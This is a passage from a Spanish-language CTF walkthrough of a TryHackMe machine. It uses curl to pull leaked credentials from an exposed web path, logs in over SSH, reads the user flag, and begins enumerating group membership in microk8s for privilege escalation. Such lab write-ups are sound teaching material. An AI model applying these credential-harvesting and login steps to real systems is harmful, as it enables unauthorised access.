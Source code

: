 Revisamos todos los directorios encontrados en busqueda de informacion valida, en el directorio /.git------ encontramos unas credenciales interesantes.
Para obtener las credenciales lo podemos hacer con el comando curl o con el  navegador nos descargamos el ficherito y listo.

Esctructura de las credenciales encontradas--> [protocolo web][usuario]:[password(urlencondeada)]@[ip equipo conexion]

Web url decode-encode --> https://www.urldecoder.org/

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/frankherby_app/nmap]
    └─# curl http://10.10.209.46:31337/.git-------     

            frank:passwd

Si recordamos en la fase de enumeracion de puertos vemos que el puerto 22 corre un servicio ssh, probamos credenciales.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/frankherby_app/nmap]
    └─# ssh frank@10.10.209.46
    The authenticity of host '10.10.209.46 (10.10.209.46)' can't be established.

    frank@10.10.209.46's password: --------> passwd(decode)
    
    Last login: Fri Oct 29 10:47:08 2021 from 192.168.120.38
    frank@dev-01:~$ 

Por lo que ya hemos completado la fase de explotacion de la maquina hemos obtenidos unas credenciales que nos permiten conectarnos por el servicio SSH.

## Elevamos privilegios y obtenemos flags.

- Obtenemos la flag de usuario

        frank@dev-01:~$ cd /home
        frank@dev-01:/home$ ls
        frank  herby
        frank@dev-01:/home$ cd frank/
        frank@dev-01:~$ ls
        repos  snap  user.txt
        frank@dev-01:~$ cat user.txt 
        THM{------}
    
- Enumeramos la maquina en busqueda de info para intentar elevar privilegios.

    Sabemos que la maquina esta corriendo Microk8s/Kubernetes,aun asi vamos a verificar la presencia de Microk8s en la maquina.
    Info sobe que es Microk8s --> https://ciberninjas.com/microk8s-un-kubernetes-diferentes/
    
    Listamos el fichero group y vemos que tanto el usuario frank como el usuario herby pertenecen al grupo microk8s
    
        frank@dev-01:/home/herby$ cat /etc/group | grep -E 'frank|herby'
            adm:x:4:syslog,herby
            cdrom:x:24:herby
            sudo:x:27:herby
            dip:x:30:herby
            plugdev:x:46:herby
            lxd:x:116:herby
            herby:x:1000:
            microk8s:x:998:herby,frank
            frank:x:1001:
            docker:x:117:herby
    